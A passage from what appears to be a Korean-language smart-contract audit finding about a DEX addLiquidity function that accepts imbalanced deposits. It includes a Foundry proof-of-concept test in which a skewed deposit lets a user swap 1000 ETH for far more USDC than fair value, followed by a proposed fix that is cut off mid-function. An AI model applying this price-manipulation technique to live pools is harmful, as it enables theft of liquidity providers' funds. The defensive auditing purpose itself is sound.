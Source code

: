 ```solidity
    update();

    return lpToken;
}
```

addLiquidity를 할 때 imbalance한 tokenAmount가 들어오더라도 풀에 집어 넣어버리기 때문에 풀의 균형이 깨질 수 있다.

#### PoC

```solidity
function testManyETH() external {
    dex.addLiquidity(4000000 ether, 1000 ether, 0);
    vm.startPrank(user1);
    uint lp = dex.addLiquidity(8000000 ether, 1 wei, 0);
    uint outputUSDC = dex.swap(0, 1000 ether, 0);
    console.log("outputUSDC: %d", outputUSDC);
    console.log("1000*4000: %d", 1000 * 4000 ether);
    vm.stopPrank();
}
```

```solidity
[PASS] testManyETH() (gas: 279843)
Logs:
  outputUSDC: 5996998499249624812403203
  1000*4000: 4000000000000000000000000
```

1000 ETH를 최대한 이득을 보면서 swap을 하기 위해서 imbalance하게 USDC를 많이 넣어서 ETH의 가치를 올린다음 swap으로 차익을 보는 방법이다.

#### 해결방안

```solidity
function addLiquidity(uint256 tokenXAmount, uint256 tokenYAmount, uint256 minimumLPTokenAmount) external returns (uint256 LPTokenAmount){
    require(tokenXAmount>0 && tokenYAmount>0);
    require(_tokenX.allowance(msg.sender, address(this))>=tokenXAmount,"ERC20: insufficient allowance");
    require(_tokenY.allowance(msg.sender, address(this))>=tokenYAmount,"ERC20: insufficient allowance");
    require(_tokenX.balanceOf(msg.sender)>=tokenXAmount,"ERC20: transfer amount exceeds balance");
    require(_tokenY.balanceOf(msg.sender)>=tokenYAmount,"ERC20: transfer amount exceeds balance");

    uint lpToken; 
    uint X;
    uint Y;

    if (liquiditySum==0){
        lpToken=Math.sqrt(tokenXAmount*tokenYAmount); //initial token amount
    }
    else {
        (X,Y)=update();
        
        // 기존 토큰에 대한 새 토큰의 비율로 계산
        uint liquidityX=liquiditySum*tokenXAmount/X;
        uint liquidityY=liquiditySum*tokenYAmount/Y;
        lpToken=(liquidityX<liquidityY)?liquidityX:liquidityY;
        if(lpToken == liquidityY){
            tokenXAmount = X * tokenYAmount / Y;
        }else{
            tokenYAmount = Y * tokenXAmount / X;
        }
    }

    require(lpToken>=minimumLPTokenAmount);
```